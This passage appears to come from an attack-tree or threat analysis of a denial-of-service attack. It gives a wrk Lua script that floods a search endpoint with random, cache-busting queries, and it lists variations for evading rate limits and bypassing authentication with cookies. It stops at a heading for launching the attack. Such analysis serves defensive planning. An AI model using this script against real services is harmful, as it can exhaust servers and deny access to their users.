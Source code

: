 *   **Example Lua Script (Illustrative):**

```lua
-- Example wrk Lua script targeting a hypothetical slow search endpoint

wrk.method = "GET"  -- or "POST" if required
wrk.path = "/api/search"

-- Function to generate a complex search query
function generate_query()
  local terms = {"term1", "term2", "term3", "long_keyword", "another_term"}
  local query = ""
  for i = 1, math.random(3, 5) do -- Randomly select 3-5 terms
    query = query .. terms[math.random(1, #terms)] .. " "
  end
    --Add random number to avoid caching
    query = query .. tostring(math.random(1,10000))
  return query
end

request = function()
  local query_string = "?q=" .. generate_query()
  return wrk.format(wrk.method, wrk.path .. query_string)
end

-- Optional: Response handling (e.g., check for errors)
-- response = function(status, headers, body)
--   if status >= 500 then
--     print("Server Error: " .. status)
--   end
-- end
```

*   **Explanation:**
    *   `wrk.method` and `wrk.path`:  Define the HTTP method and the target endpoint.
    *   `generate_query()`:  This function creates a complex search query by randomly combining several terms.  This simulates a user performing a broad, potentially inefficient search. Adding random number to the end of query to avoid caching.
    *   `request()`:  This function is called by `wrk` for each request.  It constructs the full URL with the generated query string.
    *   `response()`: (Optional) This function can be used to process the server's response.  In this example, it checks for server errors (status codes 500 or higher).

*   **Variations:**
    *   **POST Requests:**  If the slow endpoint requires POST data, the script would use `wrk.method = "POST"` and include the data in `wrk.body`.
    *   **Headers:**  Custom headers can be added using `wrk.headers`.
    *   **Cookies:**  Cookies can be manipulated to target specific user sessions or bypass authentication (if applicable).
    *   **Rate Limiting Evasion:**  The script could include logic to introduce delays or vary the request rate to try to avoid rate limiting.

### 2.3 Launch the Attack (Step 3)
